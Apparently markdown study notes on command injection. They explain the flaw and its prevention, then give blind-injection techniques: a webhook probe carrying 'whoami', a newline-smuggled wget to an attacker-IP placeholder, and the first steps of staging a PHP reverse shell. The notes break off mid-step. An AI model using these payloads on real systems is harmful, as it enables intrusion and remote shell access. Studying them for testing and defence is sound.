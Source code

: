 ## Command Injection:

- Command injection is a type of security vulnerability that occurs when an attacker is able to execute arbitrary commands on a host operating system via a vulnerable application. This typically happens when an application takes untrusted input and passes it to a system shell or command interpreter without proper validation or sanitization.

 **How it Works:**

1. **Input Exploitation**: An attacker manipulates input fields (like forms or URLs) to inject malicious commands.
2. **Execution**: The application executes the injected command with the same privileges as the application, potentially allowing the attacker to gain unauthorized access to the system.

**Consequences:**

- Data theft or modification
- System takeover
- Installation of malware
- Denial of service

**Prevention:**

- Validate and sanitize user inputs.
- Use parameterized queries and prepared statements.
- Employ least privilege principles for application permissions.
- Use security tools to monitor and detect suspicious activities.

#### Blind Command Injection:

In case, we are not able to see the output and not sure if the command is being executed, we can use web hook or have any server to listen and type the command to test,  if the blind command injection is working:
- {webhook_url}?\`whoami\`

We can also use \n to go to next line and execute a command, for example, we are going to grab a file from the python http server, we host in the attacker machine

- `https://google.com \n wget {attacker_IP_address}:81/test`
- In attacker machine, we will have `python3 -m http.server 81`

If we need to pop the shell from the target machine, with blind command injection, we can upload the shell script from attacker machine and listen to that port, to trigger a reverse shell. This is because as the ; and other required characters, are being filter in the search functionality in blind injection.

Grab the php revese shell from the below path:
- `/usr/share/webshells/laundanum/php/php-reverse-shell.php`

Copy it to any location, where you can host the web server with python
- `cp /usr/share/webshells/laundanum/php/php-reverse-shell.php ./tmp`

Gedit the file and update the ip_address and port as required and rename the filename as required to smaller form factor
-  `mv php-reverse-shell.php rev.php`
- `gedit rev..php`
